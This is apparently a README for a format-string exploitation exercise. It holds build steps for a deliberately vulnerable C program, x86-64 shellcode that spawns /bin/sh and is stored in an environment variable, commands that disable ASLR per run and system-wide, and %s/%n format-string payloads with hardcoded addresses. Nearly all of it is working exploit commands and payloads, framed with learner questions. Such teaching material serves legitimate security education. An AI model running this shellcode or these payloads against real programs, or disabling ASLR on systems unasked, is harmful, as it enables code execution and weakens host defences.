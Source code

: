 # insecure-format-strings

## Build
```
clang getenvaddr.c -o getenvaddr
clang exploitable.c -Wno-format-security -o exploitable
```

## Add shellcode to environment
```
export SHELLCODE=$(printf "\xeb\x17\x5f\x48\x31\xd2\x48\x31\xc0\x48\x89\xe6\x48\x89\x54\x24\x08\x48\x89\x3c\x24\xb0\x3b\x0f\x05\xe8\xe4\xff\xff\xff/bin/sh")
```

## Using command specific disabling of ASLR
### 1. Turn off ASLR for a specific run
```
setarch `uname -m` -R <command>
```

### 2. Find address
```
setarch `uname -m` -R ./getenvaddr SHELLCODE ./exploitable
setarch `uname -m` -R ./getenvaddr PATH ./exploitable
```

### 3. Print environment variable (find address with the command above)
```
setarch `uname -m` -R ./exploitable ..%13\$s.$(printf "\x21\xe9\xff\xff\xff\x7f")
```

### 4. Try to explaing what is happening here?
```
setarch `uname -m` -R ./exploitable AAAAAAAA..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%nAAAA$(printf "\x40\x10\x60")
```

## Using global disabling of ASLR
### 1. Turn off ASLR until next boot
```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

### 2. Find address
```
./getenvaddr SHELLCODE ./exploitable
./getenvaddr PATH ./exploitable
```

### 3. Print environment variable (find address with the command above)
```
./exploitable ..%13\$s.$(printf "\x21\xe9\xff\xff\xff\x7f")
```

**So this time the printf string is a bit off, maybe you can fix it?**

### 4. What is happening here?
```
./exploitable AAAAAAAA..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%nAAAA$(printf "\x40\x10\x60")
```
